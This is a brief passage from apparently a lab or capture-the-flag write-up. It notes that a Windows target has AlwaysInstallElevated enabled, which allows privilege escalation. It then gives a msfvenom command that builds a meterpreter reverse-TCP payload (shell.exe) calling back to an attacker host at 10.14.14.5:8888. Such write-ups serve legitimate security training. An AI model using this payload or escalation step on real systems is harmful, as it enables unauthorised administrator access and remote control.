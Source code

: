 ![image-20200912150839876](xen.assets/image-20200912150839876.png)

- AlwaysInstallElevated registry is enabled 
- that means we install everything as administrator



## msfconsole

- create a msfvenom paylaod

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.14.14.5 lport=8888 -f exe -o shell.exe 
```

![image-20200912151512780](xen.assets/image-20200912151512780.png)
